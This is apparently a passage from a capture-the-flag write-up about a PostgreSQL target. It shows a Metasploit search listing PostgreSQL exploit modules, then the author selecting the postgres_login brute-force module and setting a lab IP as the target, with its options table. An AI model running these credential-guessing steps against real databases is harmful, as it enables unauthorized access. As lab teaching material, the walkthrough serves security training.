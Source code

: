 ```bash
           Raw packets sent: 221522 (9.751MB) | Rcvd: 69886 (2.799MB)
```

# After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?
- fire up Metasploit - and searching for postgres
- auxiliary module that allows us to enumerate user credentials
- #9 auxiliary/scanner/postgres/postgres_login PostgreSQL Login Utility
```bash
msf6 > search postgres

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   1   post/linux/gather/enum_users_history                                         normal     No     Linux Gather User History
   2   exploit/multi/http/manage_engine_dc_pmp_sqli                2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   3   exploit/windows/misc/manageengine_eventlog_analyzer_rce     2015-07-11       manual     Yes    ManageEngine EventLog Analyzer Remote Code Execution
   4   auxiliary/admin/http/manageengine_pmp_privesc               2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   5   auxiliary/analyze/crack_databases                                            normal     No     Password Cracker: Databases
   6   exploit/multi/postgres/postgres_copy_from_program_cmd_exec  2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
   7   exploit/multi/postgres/postgres_createlang                  2016-01-01       good       Yes    PostgreSQL CREATE LANGUAGE Execution
   8   auxiliary/scanner/postgres/postgres_dbname_flag_injection                    normal     No     PostgreSQL Database Name Command Line Flag Injection
   9   auxiliary/scanner/postgres/postgres_login                                    normal     No     PostgreSQL Login Utility
```

- use 9 - Set module to 9 
- set -g rhosts ipaddr set the LHOSTS option globally across modules
```bash
msf6 > use 9
msf6 auxiliary(scanner/postgres/postgres_login) > options
msf6 auxiliary(scanner/postgres/postgres_login) > set -g rhosts 10.10.78.111
sf6 auxiliary(scanner/postgres/postgres_login) > options

Module options (auxiliary/scanner/postgres/postgres_login):
   Name              Current Setting                                     Required  Description
   ----              ---------------                                     --------  -----------
   BLANK_PASSWORDS   false                                               no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                   yes       How fast to bruteforce, from 0 to 5
   DATABASE          template1                                           yes       The database to authenticate against
   DB_ALL_CREDS      false                                               no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                               no        Add all passwords in the current database to the list
```